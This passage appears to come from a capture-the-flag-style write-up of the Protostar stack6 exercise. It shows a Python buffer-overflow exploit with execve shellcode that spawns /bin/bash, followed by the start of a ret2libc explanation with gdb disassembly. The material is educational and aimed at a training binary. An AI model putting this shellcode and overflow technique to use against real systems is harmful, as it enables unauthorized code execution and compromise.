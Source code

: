 ![ret]({{site.url}}{{site.baseurl}}/images/protostar/stack6/ret.png)

We also reach the SIGTRAP. Now, we can replace interrupt with payload and craft another input.

```
import struct
padding = 'AAAABBBBCCCCDDDDEEEEFFFFIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVV'
eip = struct.pack("I", 0x080484f9)
eip += struct.pack("I", 0xbffff7c0)
nopslide = "\x90"*10
payload = "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"
print padding+eip+nopslide+payload
```

Using this input, /bin/bash can start, but exits immediately.

![bash]({{site.url}}{{site.baseurl}}/images/protostar/stack6/bash.png)

Lets use the previous trick of running stack6 with cat to get an interactive shell.

![shell]({{site.url}}{{site.baseurl}}/images/protostar/stack6/shell.png)

#### ret2libc

DEP, w^x, NX bit, ASLR prevent from executing code on stack in different ways. Even if these protections are present, we can use ret2libc to execute code from libc and get a shell, instead of writing shellcode to stack and executing.

`libc` is a huge library and has many useful functions, some of which can be used to exploit. For example, `system` function in libc is used to execute shell commands. We can create a simple binary using `system` to execute `/bin/bash` and observe how the addresses are laid out on stack. The idea is to craft the same pattern of addresses on stack so that `system` is executed to run `/bin/bash`.


Lets start by creating a simple binary
```c
#include <stdlib.h>

void main(){
        system("/bin/sh");
}
```

Compile it using `gcc sys.c -o sys`. We get a root shell with it as expected. Now, lets disassemble this to get the addresses of `system` and `/bin/sh`

```
(gdb) set disassembly-flavor intel
(gdb) disassemble main
Dump of assembler code for function main:
0x080483c4 <main+0>:    push   ebp
0x080483c5 <main+1>:    mov    ebp,esp
0x080483c7 <main+3>:    and    esp,0xfffffff0
0x080483ca <main+6>:    sub    esp,0x10
0x080483cd <main+9>:    mov    DWORD PTR [esp],0x80484a0
0x080483d4 <main+16>:   call   0x80482ec <system@plt>
0x080483d9 <main+21>:   leave
0x080483da <main+22>:   ret
End of assembler dump.
(gdb)
```
